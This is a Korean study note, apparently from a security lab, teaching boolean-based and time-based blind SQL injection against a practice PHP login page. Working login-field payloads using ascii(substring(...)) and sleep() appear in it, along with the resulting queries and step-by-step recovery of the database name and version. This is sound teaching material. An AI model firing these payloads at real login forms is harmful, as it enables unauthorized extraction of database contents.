## Blind injection

#### 정의

- **Query의 결과 값이 반환되지 않는 경우** 사용
- 눈에 보이지 않기 때문에 일일이 하나씩 유추해서 원하는 결과를 얻어야 함
- Query 결과 확인  Boolean(TRUE, FALSE) SQL Injection : 결과가 참인지 거짓인지에 따라 판단함  페이지 응답이 다른 경우에는 응답 페이지에 따라 참/거짓 판단  페이지 응답이 같은 경우에는 Time Base(시간 기반)으로 판단 ＞ 참일 때와 거짓을 때 페이지응답 시간을 다르게 설정해서 Delay시간에 따라 참/거짓 판단

#### Blind SQL Injection 특징

- 참/거짓을 구분할 수 있는 서버의 응답이 필요 함
- Brute Forcing  한 문자씩 대입 공격을 수행 함 → substring(문자,시작위치,크기)  공격의 시간이 오래 소요 됨
- **많은 양의 Log**를 발생시키므로 공격 횟수를 최소화 해야 함


## Boolean -based blind injection 

Boolean-Based Blind SQL Injection
- 대입 값에 대한 참/거짓을 서버의 응답 패턴을 통하여 데이터를 유추 하는 기법

- 문자 하나씩 대입하면서 전체 데이터를 찾음 → substring(문자,시작위치,크기)

  

  

  

#### 실습

- injection vector : 참,거짓을 표시할수 있는 공간 

```
/var/www/html/member/member_login_check.php
방어 해놓은거 원상복구
~
// $strSQL="select * from member where u_id='".$id."' and u_pass='".$pw."';";
select * from member where u_id='' or ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #' and u_pass='$pw';

ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #


id : ' or ascii(substring((select u_id from member limit 0,1),2,1)) >= 65 #
pass : 아무거나 

결과) 로그인 성공 (참) 

id : ' or ascii(substring((select u_id from member limit 0,1),2,1)) < 65 #
pass : 아무거나 

결과) 로그인 실패 (거짓)
```

```
데이터베이스명 알아내기
-- 미리 체크
mysql> select database();
+------------+
| database() |
+------------+
| WebTest    |
+------------+
1 row in set (0.00 sec)

-- 모른다는 가정하에 테스트
- 알파벳인가 ? (확률)
' or ascii(substring(database(),1,1)) >= 65  #
참

- 대소문자 ? (확률)
' or ascii(substring(database(),1,1)) >= 97  #
거짓 


' or ascii(substring(database(),2,1)) >= 65 #
' or ascii(substring(database(),3,1)) >= 65 #
' or ascii(substring(database(),4,1)) >= 65 #

데이터베이스 버전 
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.1.73    |
+-----------+
1 row in set (0.00 sec)

0~9 번까지 대입

' or substring(version(),1,1) ='1' #
거짓 

' or substring(version(),1,1) ='5' #
참 

proxy 로 테스트
```

#### Boolean-Based Blind Injection 스크립트 작성

- Blind SQL Injection 수행 시 정보 획득을 위해 수 많은 쿼리를 발생시켜야 함
- 예로 회원정보 테이블에서 100여 건의 레코드를 추출하기 위해서는 수 만개의 쿼리를 사용해야 될 수도있음
- 쿼리를 직접 대입하는 것은 불가능은 아니지만 현실적으로 매우 힘들기 때문에 공격 스크립트를 작성후 정보 획득  C, PHP, Perl, Python, Ruby, ...

관련도구가 존재한다

## Time-Based Blind SQL Injection

#### 정의

- 응답의 참/거짓을 구분할 수 없을 때 사용되는 Blind SQL Injection 기법
- 대입 값에 대한 참 또는 거짓의 결과를 응답의 전송 시간을 이용하여 판단 함
- 쿼리문의 참/거짓에 따라 응답 시간을 다르게 하여 참/거짓을 판별
  - sleep(), benchmark(), ... 등의 함수 이용

#### sleep 함수

- 조건의 참인 SQL Query의 응답시간을 지연시키는 함수

  - 참 → 지정된 시간만큼 지연시킨 후 결과 반환

  - 거짓 → 즉시 결과 반환

- 네트워크의 통신 상태에 따라 결과가 부정확 할 수 있음

- 사용 예

  - and 연산자를 사용하는 경우 앞의 조건이 참이면 뒤의 내용 실행

  - 앞의 조건이 거짓이면 뒤의 내용 실행하지 않음(Short Cut) - 어차피 거짓이므로  

- A and B

  - A 가 참인경우 B 확인

  - A 가 거짓인경우 B 확인 

- 참  True 1  on

  - 참 이므로 실행 O

    

- 거짓 False 0  off 

  - 거짓이므로 실행 X

    

#### 실습

- 로그인 창

  ```
  ID   : ' or 1 and sleep(3) # 
  PASS : 상관없음 
  
  팝업창 응답이 빨리 뜨는지 만약에 구분안된다 생각되면 sleep(10)
  ```

- 참

  ```
  select * from member where u_id='' or 1 and sleep(3) #' and u_pass='$pw';
  ```

  

- 거짓

  ```
  select * from member where u_id='' or 0 and sleep(3) #' and u_pass='$pw';
  ```

  

- database() 이용하여 데이터베이스명 첫글자 알아내기

  - 참고

    ```
    mysql> select database();
    ```

    

    ```
    데이터베이스의 첫글자 확인
    
    mysql> select substring(database(),1,1);
    ```

    

    ```
    데이터베이스의 첫글자의 ascii 코드를 확인
    
    mysql> select ascii(substring(database(),1,1));
    ```

    

  - 알파벳 문자인가?

    ```
    select * from member where u_id='' or ascii(substring(database(),1,1))>=65 and sleep(5) #' and u_pass='$pw';
    
    ID : ' or ascii(substring(database(),1,1))>=65 and sleep(5) #
    PASS : 아무거나 
    
    결과) 로그인 실패 창이 늦게 뜬다 - 참 > 알파벳 문자일 확률이 높다
    ```

    

    

    

  - 소문자인가?

    ```
    ID : ' or ascii(substring(database(),1,1))>=97 and sleep(5) #
    PASS : 아무거나
    
    결과) 로그인 실패 창이 빨리 뜬다 - 거짓 > 소문자가 아니다
    ```

    

    

  - 특정 알파벳보다 아스키코드가 큰가? (M)

    ```
    ID : ' or ascii(substring(database(),1,1))>=77 and sleep(5) #
    PASS : 아무거나 
    
    결과)  로그인 실패 창이 늦게 뜬다 - 참 
    ```

    

    

  - S보다 큰가 ?

    ```
    ID : ' or ascii(substring(database(),1,1))>=83 and sleep(5) #
    PASS : 아무거나
    
    결과)  로그인 실패 창이 늦게 뜬다 - 참 
    ```

    

    

    

  - V,X 도 테스트

    ```
    V 보다  같거나 큰가 ?
    ID : ' or ascii(substring(database(),1,1))>=86 and sleep(5) #
    PASS : 아무거나 
    
    결과)  로그인 실패 창이 늦게 뜬다 - 참 
    
    X보다 같거나 큰가 ?
    ID : ' or ascii(substring(database(),1,1))>=88 and sleep(5) #
    PASS : 아무거나 
    
    결과) 로그인 실패 창이 빨리 뜬다 - 거짓 :  X 보다 아스키코드가 작다 
    ```

  - 마지막으로 W 인지 테스트

    ```
    ID : ' or ascii(substring(database(),1,1))=87 and sleep(5) #
    PASS : 아무거나 
    
    결과)  로그인 실패 창이 늦게 뜬다 - W 인거 확인
    ```

    

    

    